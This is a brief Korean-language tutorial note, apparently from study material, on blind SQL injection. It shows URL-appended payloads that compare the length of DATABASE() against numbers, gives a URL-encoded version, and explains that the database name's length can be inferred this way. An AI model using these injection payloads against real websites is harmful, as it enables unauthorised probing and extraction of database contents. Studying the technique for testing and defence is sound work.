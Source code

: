 ### 데이터베이스 이름 길이 추출

```sql
#길이 확인 - >,<로 대략적인 크기 유추 가능
URLQuery AND LENGTH(DATABASE()) < 5
#원본 형태
URLQuery AND LENGTH(DATABASE()) = 5
#URL 인코딩 후
URLQuery+AND+LENGTH(DATABASE())+%3D+5
```

- URL에 SQL 쿼리문이 존재하여 SQL Injection 시도
- 연산자에 부등호(<,>)를 이용하여 대략적인 데이터베이스 이름명의 길이를 유추 가능
